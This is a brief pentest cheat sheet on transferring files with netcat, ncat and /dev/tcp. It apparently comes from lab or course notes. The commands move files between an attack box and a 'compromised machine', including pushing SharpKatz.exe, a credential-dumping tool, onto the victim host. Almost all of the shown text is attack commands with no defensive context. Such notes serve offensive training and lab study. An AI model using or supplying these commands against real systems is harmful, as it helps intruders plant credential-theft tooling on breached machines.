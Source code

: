 ## File Transfer

Compromised Machine - Listening on Port 8000
```
nc -l -p 8000 > filename.exe
```

```
ncat -l -p 8000 --recv-only > filename.exe
```

Atackbox - sending file to compromised machine 
```
nc -q 0 192.168.49.128 8000 < filename.exe
```

```
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Sending file as input 
```shell-session
sudo nc -l -p 443 -q 0 < filename.exe
```

```shell-session
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

Compromised machine connecting to netcat 
```shell-session
nc 192.168.49.128 443 > SharpKatz.exe
```

```shell-session
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

```shell-session
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```